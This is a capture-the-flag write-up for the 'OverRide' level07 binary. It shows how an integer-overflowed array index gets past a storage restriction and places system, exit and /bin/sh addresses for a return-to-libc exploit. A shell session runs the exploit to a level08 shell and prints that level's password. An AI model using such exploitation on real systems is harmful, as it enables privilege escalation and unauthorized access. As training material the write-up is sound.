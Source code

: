# level07

In this level, we have an executable that handle different commands
- store
- read
- quit

We have an info
>wil has reserved some storage

While checking the binary with ghidra, we can see a that we can't store any multiple of 3

We will find the buffer size, explains have been made in [gdb writeup](Ressources/gdbwriteup.md)

At the end of the buffer, we will store the 3 different addresses of system, exit and /bin/sh

so at index 114, 115, 116 (not 456, 457, 458 because we are storing integers)

We can't store at 114 because it's a multiple of 3, so we will do an integer overflow to store at 114

4294967296 / 4 + 114 = 1073741938

so at the end, we will store at index 1073741938, 1073741939, 1073741940

| Index | Value |
|-------|-------|
| 1073741938 | 4159090384 |
| 1073741939 | 4159040368 |
| 116 | 4160264172 |

```bash
level07@OverRide:~$ ./level07
Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 1073741939
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 1073741940
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
 Failed to do store command
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```